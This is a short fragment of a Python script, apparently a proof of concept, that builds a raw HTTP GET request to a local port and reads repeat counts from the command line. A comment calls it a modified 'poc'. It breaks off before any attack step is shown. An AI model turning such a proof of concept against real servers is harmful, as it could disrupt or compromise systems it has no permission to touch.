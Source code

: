   <img src="/files/2023-04-14/t27.jpg">
</p>

```python
import socket
import sys
import time

HOST = '127.0.0.1'
PORT = 8081

# Construct the HTTP request
request = """GET / HTTP/1.1\r
Host: example.com\r
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3\r
Content-Type: text/plain\r"""

# modified a bit to support multiple-keys and carriege return, but the poc is the same
try :
  repeat = int(sys.argv[1])
  repeat_2 = int(sys.argv[2])
```